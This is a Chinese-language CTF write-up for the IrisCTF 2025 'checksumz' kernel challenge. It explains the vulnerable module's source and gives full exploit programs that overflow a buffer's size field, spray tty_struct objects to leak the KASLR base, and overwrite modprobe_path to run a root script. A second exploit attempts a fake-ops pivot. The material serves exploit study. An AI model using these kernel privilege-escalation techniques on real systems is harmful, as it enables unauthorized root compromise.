

用2025 irisctf checksumz 来学习modprobe path来任意代码执行

https://github.com/IrisSec/IrisCTF-2025-Challenges/tree/main/checksumz

**[checksumz.tar.gz]**

题目有四个基础功能，都是对一个结构体进行操作

|C++ struct checksum\_buffer { `        `loff\_t pos; `        `char state[512]; `        `size\_t size; `        `size\_t read; `        `char\* name; `        `uint32\_t s1; `        `uint32\_t s2; };|
| :- |

初始化

|C++ buffer->pos = 0; buffer->size = 512; buffer->read = 0; buffer->name = kzalloc(1000, GFP\_KERNEL); buffer->s1 = 1; buffer->s2 = 0;|
| :- |

name在内核堆创造了一个空间为1000的堆块，放在kmalloc-1024

read

|C++ static ssize\_t checksumz\_read\_iter(struct kiocb \*iocb, struct iov\_iter \*to) { `        `struct checksum\_buffer\* buffer = iocb->ki\_filp->private\_data; `        `size\_t bytes = iov\_iter\_count(to);  `        `if (!buffer) `                `return -EBADFD; `        `if (!bytes) `                `return 0; `        `if (buffer->read >= buffer->size) { `                `buffer->read = 0; `                `return 0; `        `}  `        `ssize\_t copied = copy\_to\_iter(buffer->state + buffer->pos, min(bytes, 256), to);  `        `buffer->read += copied; `        `buffer->pos += copied; `        `if (buffer->pos >= buffer->size) `                `buffer->pos = buffer->size - 1;  `        `return copied; }|
| :- |

最多能读256个字节

Ioctl 功能

|C++ static long checksumz\_ioctl(struct file \*file, unsigned int command, unsigned long arg) { `        `struct checksum\_buffer\* buffer = file->private\_data;  `        `if (!file->private\_data) `                `return -EBADFD;          `        `switch (command) { `                `case CHECKSUMZ\_IOCTL\_RESIZE: `                        `if (arg <= buffer->size && arg > 0) { `                                `buffer->size = arg; `                                `buffer->pos = 0; `                        `} else `                                `return -EINVAL;  `                        `return 0; `                `case CHECKSUMZ\_IOCTL\_RENAME: `                        `char \_\_user \*user\_name\_buf = (char \_\_user\*) arg;  `                        `if (copy\_from\_user(buffer->name, user\_name\_buf, 48)) { `                                `return -EFAULT; `                        `}  `                        `return 0; `                `case CHECKSUMZ\_IOCTL\_PROCESS: `                        `adler32(buffer->state, buffer->size, &buffer->s1, &buffer->s2); `                        `memset(buffer->state, 0, buffer->size); `                        `return 0; `                `case CHECKSUMZ\_IOCTL\_DIGEST: `                        `uint32\_t \_\_user \*user\_digest\_buf = (uint32\_t \_\_user\*) arg; `                        `uint32\_t digest = buffer->s1 | (buffer->s2 << 16);  `                        `if (copy\_to\_user(user\_digest\_buf, &digest, sizeof(uint32\_t))) { `                                `return -EFAULT; `                        `}  `                        `return 0; `                `default: `                        `return -EINVAL; `        `}  `        `return 0; }|
| :- |

这里除了rename其他功能对攻击没帮助，有这些只是为了符合题目场景

Write

|C++ static ssize\_t checksumz\_write\_iter(struct kiocb \*iocb, struct iov\_iter \*from) { `        `struct checksum\_buffer\* buffer = iocb->ki\_filp->private\_data; `        `size\_t bytes = iov\_iter\_count(from);   `        `if (!buffer) `                        `return -EBADFD; `        `if (!bytes) `                        `return 0;  `                `ssize\_t copied = copy\_from\_iter(buffer->state + buffer->pos, min(bytes, 16), from);   `                `buffer->pos += copied; `                `if (buffer->pos >= buffer->size) `                        `buffer->pos = buffer->size - 1;                  `        `return copied; }|
| :- |

可以往buf偏移上写最多16字节，这里配合下一个功能可以实现一些奇特的功能

Lseek

|C++ static loff\_t checksumz\_llseek(struct file \*file, loff\_t offset, int whence) { `        `struct checksum\_buffer\* buffer = file->private\_data;  `        `switch (whence) { `                `case SEEK\_SET: `                        `buffer->pos = offset; `                        `break; `                `case SEEK\_CUR: `                        `buffer->pos += offset; `                        `break; `                `case SEEK\_END: `                        `buffer->pos = buffer->size - offset; `                        `break; `                `default: `                        `return -EINVAL; `        `}  `        `if (buffer->pos < 0) `                `buffer->pos = 0;  `        `if (buffer->pos >= buffer->size) `                `buffer->pos = buffer->size - 1;  `        `return buffer->pos; }|
| :- |

可以改pos为任意小于size的值，如果把pos改成512可以溢出15字节。这15字节可以覆盖size到一个很大的值，实现相对任意写。

|C++ char\* name;|
| :- |

可见name为指针，不难想到覆盖指针来利用rename来进行任意写

POC

|C++ #include "api.h" #include <stdio.h> #include <stdlib.h> #include <stdint.h>  int fd;  int main() { `        `fd = open("/dev/checksumz", O\_RDWR); `        `lseek(fd, 512, SEEK\_SET); `        `unsigned long buf[2]; `        `memset(buf, 0xff, sizeof(buf)); `        `write(fd, buf, sizeof(buf)); }|
| :- |

size已经被覆盖成0xffffffffffffffff，这样可以改pos来进行相对任意写和读。

为了能够知道内核地址，我们需要拿到kaslr基地址。可以利用tty\_struct 来创造含有内核地址的堆块

|C++ for(int i=0;i<0x100;i++){ spray[i] = open("/dev/ptmx", O\_RDONLY | O\_NOCTTY); }|
| :- |

这样在buf下面会有tty堆块可以读。在泄漏过程中可能会出现泄漏不成功，可以选择多创造点堆块来提升稳定性和在不同位置读堆块来稳定的获得基地址。

最后，把name指针改为modprobe\_path来覆盖为/tmp/x，这样可以在root权限进行任意代码。

modprobe

完整exp

|C++ //192.168.64.6:8080/exp  #include "api.h" #include <stdio.h> #include <stdlib.h> #include <stdint.h> #include <stdio.h> #include <sys/types.h> #include <sys/stat.h> #include <fcntl.h> #include <sched.h> #include <sys/mman.h> #include <signal.h> #include <sys/syscall.h> #include <sys/ioctl.h> #include <linux/userfaultfd.h> #include <sys/wait.h> #include <poll.h> #include <unistd.h> #include <stdlib.h> #include <string.h> #include <pthread.h>  int fd, spray[0x100]; unsigned long user\_ss, user\_sp, user\_cs, user\_rflags, kaslr;  #define modprobe\_path kaslr+0x1b3f100  void save\_state(){ `        `\_\_asm\_\_( `                `".intel\_syntax noprefix;" `                `"mov user\_cs, cs;" `                `"mov user\_ss, ss;" `                `"mov user\_sp, rsp;" `                `"pushf;" `                `"pop user\_rflags;" `                `".att\_syntax;" `           `); }   void shell(){ `        `printf("[+] UID %d\n",getuid()); `        `system("/bin/sh"); }   unsigned long user\_rip = (unsigned long)shell;  int main() { `        `save\_state(); `        `for(int i=0;i<0x80;i++){ spray[i] = open("/dev/ptmx", O\_RDONLY | O\_NOCTTY); } `        `fd = open("/dev/checksumz", O\_RDWR); `        `for(int i=0x80;i<0x100;i++){ spray[i] = open("/dev/ptmx", O\_RDONLY | O\_NOCTTY); } `        `lseek(fd, 512, SEEK\_SET);  `        `int good; `        `unsigned long buf[2]; `        `memset(buf, 0xff, sizeof(buf)); `        `write(fd, buf, sizeof(buf)); `        `for(int i=0;i<8;i++){ `                `lseek(fd, 1048+i\*1024, SEEK\_SET); `                `read(fd, buf, 8); `                `kaslr = buf[0] - 0x1289480; `                `printf("%lx\n", kaslr); `                `printf("%lx\n", (kaslr & ~0xffffff)); `                `if((kaslr & ~0xffffff) == kaslr){ `                        `printf("kaslr %lx\n", kaslr); `                        `printf("modprobe\_path %lx\n", modprobe\_path); `                        `good = 1; `                        `break; `                `} `        `} `        `//puts("Done"); `        `if(!good){ `                `puts("[x] exploit failed"); `                `exit(0); `        `} `        `lseek(fd, 528, SEEK\_SET); `        `buf[0] = modprobe\_path; `        `write(fd, buf, 8); `        `char \*path = "/tmp/x"; `        `ioctl(fd, CHECKSUMZ\_IOCTL\_RENAME, (uint64\_t \*)path);  `        `system("echo '#!/bin/sh\ncp /dev/vda /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x"); `        `system("chmod +x /tmp/x"); `        `system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy"); `        `system("chmod +x /tmp/dummy"); `        `system("/tmp/dummy"); `        `system("cat /tmp/flag");  }|
| :- |

可能讲的不好，有建议或者讲错或讲的不对都可以提出来。这解是给预期，预期解如果能做出来可能会再写篇文章。：）

tty\_struct 打法

|C++ //192.168.64.6:8080/exp  #include "api.h" #include <stdio.h> #include <stdlib.h> #include <stdint.h> #include <stdio.h> #include <sys/types.h> #include <sys/stat.h> #include <fcntl.h> #include <sched.h> #include <sys/mman.h> #include <signal.h> #include <sys/syscall.h> #include <sys/ioctl.h> #include <linux/userfaultfd.h> #include <sys/wait.h> #include <poll.h> #include <unistd.h> #include <stdlib.h> #include <string.h> #include <pthread.h>  int fd, spray[0x100]; unsigned long user\_ss, user\_sp, user\_cs, user\_rflags, kaslr, name[1];  //#define modprobe\_path kaslr+0x1b3f100 #define pivot kaslr+0x185b884  void save\_state(){ `        `\_\_asm\_\_( `                `".intel\_syntax noprefix;" `                `"mov user\_cs, cs;" `                `"mov user\_ss, ss;" `                `"mov user\_sp, rsp;" `                `"pushf;" `                `"pop user\_rflags;" `                `".att\_syntax;" `           `); }   void shell(){ `        `printf("[+] UID %d\n",getuid()); `        `system("/bin/sh"); }   unsigned long user\_rip = (unsigned long)shell;  int main() { `        `save\_state(); `        `for(int i=0;i<0x80;i++){ spray[i] = open("/dev/ptmx", O\_RDONLY | O\_NOCTTY); } `        `fd = open("/dev/checksumz", O\_RDWR); `        `for(int i=0x80;i<0x100;i++){ spray[i] = open("/dev/ptmx", O\_RDONLY | O\_NOCTTY); }  `        `lseek(fd, 512, SEEK\_SET);  `        `int good = 0; `        `unsigned long buf[2]; `        `memset(buf, 0xff, sizeof(buf)); `        `write(fd, buf, sizeof(buf)); `        `for(int i=0;i<8;i++){ `                `lseek(fd, 1048+i\*1024, SEEK\_SET); `                `read(fd, buf, 8); `                `kaslr = buf[0] - 0x1289480; `                `printf("%lx\n", buf[0]); `                `if((kaslr & ~0xfffff) == kaslr){ `                        `printf("kaslr %lx\n", kaslr); `                        `printf("modprobe\_path %lx\n", pivot); `                        `good = 1; `                        `break; `                `} `        `} `        `//puts("Done"); `        `if(!good){ `                `puts("[x] exploit failed"); `                `exit(0); `        `} `        `lseek(fd, 528, SEEK\_SET); `        `read(fd, buf, 8); `        `name[0] = buf[0]; `        `printf("name addr %lx\n", name[0]); `        `lseek(fd, 528, SEEK\_SET);  `        `unsigned long fake\_ops[4]; `        `for(int t=0;t<16;t++){ `                `//for(int i=0;i<4;i++){ fake\_ops[i] = 0xffffffffdead0000 + ((i+t\*4) << 8); } `                `for(int i=0;i<4;i++){ fake\_ops[i] = pivot; } `                `ioctl(fd, CHECKSUMZ\_IOCTL\_RENAME, (uint64\_t \*)fake\_ops); `                `name[0] += 32; `                `write(fd, name, 8); `                `lseek(fd, 528, SEEK\_SET); `        `} `        `name[0] -= 512; `        `lseek(fd, 1048, SEEK\_SET); `        `write(fd, name, 8);  `        `for(int i=0;i<0x100;i++){ ioctl(spray[i], 0x41414141, 0x42424242); }  `        `/\* `        `buf[0] = modprobe\_path; `        `write(fd, buf, 8); `        `char \*path = "/tmp/x"; `        `ioctl(fd, CHECKSUMZ\_IOCTL\_RENAME, (uint64\_t \*)path);  `        `system("echo '#!/bin/sh\n/bin/sh' > /tmp/sh"); `        `system("chmod +x /tmp/sh"); `        `system("echo '#!/bin/sh\nmv /tmp/sh /bin/poweroff' > /tmp/x"); `        `system("chmod +x /tmp/x"); `        `system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy"); `        `system("chmod +x /tmp/dummy"); `        `system("/tmp/dummy"); `        `\*/ }|
| :- |

没找到合适的gadget来写rop

参考

https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/

